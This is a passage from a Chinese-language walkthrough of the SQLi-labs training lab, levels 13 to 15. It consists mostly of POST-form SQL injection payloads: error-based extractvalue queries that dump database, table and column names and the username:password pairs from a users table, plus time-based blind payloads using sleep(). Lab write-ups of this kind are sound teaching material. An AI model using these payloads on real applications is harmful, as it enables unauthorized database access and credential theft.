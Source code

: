 爆值payload

```
uname=admin') and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit
```

# **Less-14** 

**POST - Double Injection - Single quotes- String -twist (POST单引号变形双注入)**



### extractvalue报错注入

爆库payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+&passwd=admin&submit=Submit
```

爆列名payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+&passwd=admin&submit=Submit
```

爆值payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit
```

# **less-15 **

**POST - Blind- Boolian/time Based - Single quotes (基于bool型/时间延迟单引号POST型盲注)**



### **方法一，时间延迟手工注入**

时间延迟测试payload

```
uname=admin' and sleep(5) --+&passwd=admin&submit=Submit
```

暴库长度payload

```
uname=admin' and if(length(database())=8,sleep(3),1) --+&passwd=admin&submit=Submit
```
